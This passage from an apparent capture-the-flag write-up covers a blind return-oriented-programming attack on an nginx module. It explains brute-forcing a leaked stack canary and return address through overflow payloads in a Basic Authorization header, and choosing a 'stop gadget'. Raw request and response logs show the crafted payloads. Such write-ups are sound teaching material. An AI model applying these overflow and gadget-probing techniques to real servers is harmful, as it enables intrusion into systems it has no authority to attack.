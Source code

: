 The length of 46 was found through trial and error to be the end of the return address. Note that this brute force only needs to be done once, as once we have the values we can simply reuse them. Running this code will produce many null bytes, then the stack canary, then eight null bytes, then the return address.

```
00000000000000000000000000000000000000000000000240802d6150e00000000000000000002d0abb01560000
```

# Finding a Stop Gadget
So far, we only have two states: 502 when the module crashes, and 401 when it does not. In order to probe further, we need to be able to deliberately control a third discernible state. In the original paper, this is called a "stop gadget" because this third discernible state caused the program to hang and timeout. However, this is not a requirement for a stop gadget.

The author of the challenge was kind enough to place some code directly after the return address that would print a short debug message, which would be an excellent stop gadget.

```
[DEBUG] Sent 0xa8 bytes:
    b'GET / HTTP/1.1\r\n'
    b'Host: 48gcnu5l1wrm3n8ktvun2zdnsqbweg.pinata-ams3.web.jctf.pro\r\n'
    b'Authorization: Basic QToAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAJAgC1hUOAAAAAAAAAAAEktCrsBVgAA\r\n'
    b'\r\n'
[DEBUG] Received 0xad bytes:
    b'HTTP/1.1 200 OK\r\n'
    b'Server: nginx\r\n'
    b'Date: Mon, 01 Feb 2021 04:47:25 GMT\r\n'
    b'Content-Type: text/plain\r\n'
    b'Content-Length: 32\r\n'
    b'Connection: keep-alive\r\n'
    b'\r\n'
    b'~~~ DEBUG: the module works! ~~~'
```

However, kmh found that the address `0x4ed00` before our leaked return would trigger an `HTTP 000` response. This choice of stop gadget caused us some trouble later, but for the most part it worked fine.

```
[DEBUG] Sent 0xa8 bytes:
    b'GET / HTTP/1.1\r\n'
    b'Host: 48gcnu5l1wrm3n8ktvun2zdnsqbweg.pinata-ams3.web.jctf.pro\r\n'
    b'Authorization: Basic QToAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAJAgC1hUOAAAAAAAAAAAABABbsBVgAA\r\n'
    b'\r\n'
[DEBUG] Received 0x70 bytes:
    b'HTTP/1.1 000 \r\n'
    b'Server: nginx\r\n'
    b'Date: Mon, 01 Feb 2021 04:46:58 GMT\r\n'
    b'Content-Length: 0\r\n'
    b'Connection: keep-alive\r\n'
    b'\r\n'
```
